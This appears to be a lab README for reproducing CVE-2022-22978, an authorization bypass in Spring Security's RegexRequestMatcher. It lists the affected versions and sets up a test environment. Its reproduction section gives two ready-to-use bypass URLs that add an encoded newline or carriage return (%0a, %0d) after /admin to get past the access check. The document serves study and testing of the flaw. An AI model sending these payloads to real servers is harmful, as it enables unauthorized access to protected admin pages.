


# CVE-2022-22978: Spring Security Authorization Bypass in RegexRequestMatcher

In Spring Security versions 5.5.6 and 5.6.3 and older unsupported versions, RegexRequestMatcher can easily be misconfigured to be bypassed on some servlet containers.

Applications using RegexRequestMatcher with `.` in the regular expression are possibly vulnerable to an authorization bypass.

References:

- <https://tanzu.vmware.com/security/cve-2022-22978>
- <https://github.com/DeEpinGh0st/CVE-2022-22978>

## Vulnerability Environment

After server is started, browse to <http://your-ip:8080/admin> to see that access to the admin page is blocked.

## Vulnerability Reproduce

Send the following request to access the admin page:

- <http://your-ip:8080/admin/%0atest>
- <http://your-ip:8080/admin/%0dtest>

